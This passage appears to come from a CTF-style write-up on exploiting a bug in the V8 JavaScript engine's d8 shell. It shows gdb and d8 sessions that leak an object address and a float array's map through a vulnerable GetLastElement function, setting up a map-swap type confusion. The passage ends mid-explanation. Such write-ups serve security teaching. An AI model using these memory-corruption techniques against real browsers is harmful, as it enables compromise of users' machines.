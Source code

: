 

    gef➤  run --allow-natives-syntax exploit.js --shell
    Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax exploit.js --shell
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7fb0ed6ad700 (LWP 63204)]
    V8 version 8.5.0 (candidate)
    d8>



I'll create an object, `obj`. I can run `%DebugPrint` here to see the
address in memory, but I won't have access to that in a live exploit.



    d8> var obj = {"findme": 1};
    undefined
    d8> %DebugPrint(obj);
    0x3ecd0808823d <Object map = 0x3ecd08244e51>
    {findme: 1}



To find it's address, I'm going to start with a float array. It's map
will be `PACKED_DOUBLE_ELEMENTS`:



    d8> var arr = [1.1];
    undefined
    d8> %DebugPrint(arr)
    0x3ecd080889b9 <JSArray[1]>
    [1.1]



I can leak that map (and the properties as I get 64-bits, but the map
pointer is compressed to 32-bits) using the `GetLastElement` function:



    d8> ftoi(arr.GetLastElement()).toString(16);
    "80406e908241909"   <-- low word is map, high is props
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55a7e1620250, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
    gef➤  x/4xw 0x3ecd080889b9-1
    0x3ecd080889b8: 0x08241909      0x080406e9      0x080889a9      0x00000002



I'll save that, as I'll need it:



    d8> var float_map = ftoi(arr.GetLastElement());
    undefined



I don't have a good way to leak a map of an array with a single object
in it (remember the vulnerable function is only for arrays). But through
some analysis in `gdb`, it looks like that maps is always 0x50 bytes
past the map for `[1.1]`. Knowing that, I can change the map, and then
put the object I'm targeting into this array:
